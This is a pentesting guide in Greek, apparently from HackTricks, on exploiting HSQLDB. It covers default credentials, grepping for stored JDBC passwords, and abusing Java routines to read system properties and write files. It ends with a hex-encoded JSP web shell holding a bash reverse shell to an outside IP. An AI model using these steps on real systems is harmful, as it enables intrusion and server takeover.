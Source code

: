 {{#include ../banners/hacktricks-training.md}}

# Βασικές Πληροφορίες

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** είναι το κορυφαίο σύστημα σχεσιακής βάσης δεδομένων SQL που έχει γραφτεί σε Java. Προσφέρει μια μικρή, γρήγορη, πολυνηματική και συναλλαγματική μηχανή βάσης δεδομένων με πίνακες μνήμης και δίσκου και υποστηρίζει ενσωματωμένες και διακομιστικές λειτουργίες.

**Προεπιλεγμένη θύρα:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Πληροφορίες

### Προεπιλεγμένες Ρυθμίσεις

Σημειώστε ότι από προεπιλογή αυτή η υπηρεσία πιθανώς εκτελείται στη μνήμη ή είναι συνδεδεμένη στο localhost. Αν το βρήκατε, πιθανώς εκμεταλλευτήκατε μια άλλη υπηρεσία και ψάχνετε να αναβαθμίσετε τα δικαιώματα.

Οι προεπιλεγμένες διαπιστεύσεις είναι συνήθως `sa` με κενό κωδικό πρόσβασης.

Αν έχετε εκμεταλλευτεί μια άλλη υπηρεσία, αναζητήστε πιθανές διαπιστεύσεις χρησιμοποιώντας
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Σημειώστε προσεκτικά το όνομα της βάσης δεδομένων - θα το χρειαστείτε για να συνδεθείτε.

# Συλλογή Πληροφοριών

Συνδεθείτε στην DB instance κατεβάζοντας [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) και εξάγοντας το `hsqldb/lib/hsqldb.jar`. Εκτελέστε την εφαρμογή GUI \(eww\) χρησιμοποιώντας `java -jar hsqldb.jar` και συνδεθείτε στην instance χρησιμοποιώντας τα ανακαλυφθέντα/αδύναμα διαπιστευτήρια.

Σημειώστε ότι το URL σύνδεσης θα μοιάζει κάπως έτσι για ένα απομακρυσμένο σύστημα: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Τέχνες

## Ρουτίνες Γλώσσας Java

Μπορούμε να καλέσουμε στατικές μεθόδους μιας κλάσης Java από το HSQLDB χρησιμοποιώντας Ρουτίνες Γλώσσας Java. Σημειώστε ότι η καλούμενη κλάση πρέπει να είναι στο classpath της εφαρμογής.

Οι JRTs μπορούν να είναι `functions` ή `procedures`. Οι συναρτήσεις μπορούν να καλούνται μέσω SQL δηλώσεων αν η μέθοδος Java επιστρέφει μία ή περισσότερες SQL-συμβατές πρωτότυπες μεταβλητές. Ενεργοποιούνται χρησιμοποιώντας τη δήλωση `VALUES`.

Αν η μέθοδος Java που θέλουμε να καλέσουμε επιστρέφει void, πρέπει να χρησιμοποιήσουμε μια διαδικασία που ενεργοποιείται με τη δήλωση `CALL`.

## Ανάγνωση Ιδιοτήτων Συστήματος Java

Δημιουργήστε συνάρτηση:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Εκτέλεση συνάρτησης:
```text
VALUES(getsystemproperty('user.name'))
```
Μπορείτε να βρείτε μια [λίστα με τις ιδιότητες του συστήματος εδώ](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Γράψτε Περιεχόμενο σε Αρχείο

Μπορείτε να χρησιμοποιήσετε το `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java gadget που βρίσκεται στο JDK \(αυτόματα φορτωμένο στη διαδρομή κλάσης της εφαρμογής\) για να γράψετε στοιχεία κωδικοποιημένα σε hex στον δίσκο μέσω μιας προσαρμοσμένης διαδικασίας. **Σημειώστε το μέγιστο μέγεθος των 1024 bytes**.

Δημιουργήστε διαδικασία:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Εκτέλεση διαδικασίας:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
